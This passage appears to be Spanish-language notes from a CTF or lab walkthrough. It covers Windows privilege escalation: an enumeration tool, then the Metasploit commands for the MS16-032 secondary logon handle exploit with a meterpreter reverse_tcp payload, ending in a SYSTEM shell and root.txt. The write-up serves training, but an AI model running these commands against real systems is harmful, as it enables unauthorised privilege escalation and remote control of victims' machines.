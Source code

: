     - Servicios mal configurados
        
    - Permisos de archivos inseguros
        
    - Usuarios en grupos privilegiados
        
    - Contraseñas en texto plano
        
    - Auto-logon
        
    - Binaries vulnerables (privesc manual)
        
-  **Tipo de herramienta:**  
    Es una herramienta de **enumeración profunda**, **no explota** directamente nada.
    
-  **Dependencia:**  
    Es autónoma. Solo necesitas ejecutarla en el sistema comprometido.
    
-  **Enfoque:**  
    **Te da pistas** para que tú decidas qué técnica usar (manual o automatizada).


Pasos para usarlo:

```
meterpreter > Ctrl+Z
Background session 1? [y/N]  y
```

Nos salimos del meterpreter y damos lo siguiente:

```
sessions
```

![Pasted image 20250522213209.png](/img/user/Imagenes/Pasted%20image%2020250522213209.png)
En mi caso eligire cualquiera de las dos sessiones ya que lo hice dos veces.

**set SESSION 3**

Luego damos **run** o **exploit** y se ejecutara.

![Pasted image 20250522213313.png](/img/user/Imagenes/Pasted%20image%2020250522213313.png)


Despues de probar los paylodas, el que funciono es:

**exploit/windows/local/ms16_032_secondary_logon_handle_privesc**

Que es lo que hace exactamente? -> Esta vulnerabilidad permite al usuario local limitado obtener una shell como NT AUTHORITY\SYSTEM explotando como Windows maneja los handles del servicio de inicio de session secundario.

Requisitos:

- Tener una sesion Meterpreter activa como usuario limitado.
- Sistema vulnerable (comun en Windows 7, windows 8, Server 2008, etc.)
- Compatible con 32 y 64 bits.

Pasos:

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id de tu session>
set LHOST 10.10.10.8
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

Despues usamos **shell** en el meterpreter y podemos acceder al administrator:

![Pasted image 20250522230037.png](/img/user/Imagenes/Pasted%20image%2020250522230037.png)

Obtenemos la root.txt en el Administrator.

thanks.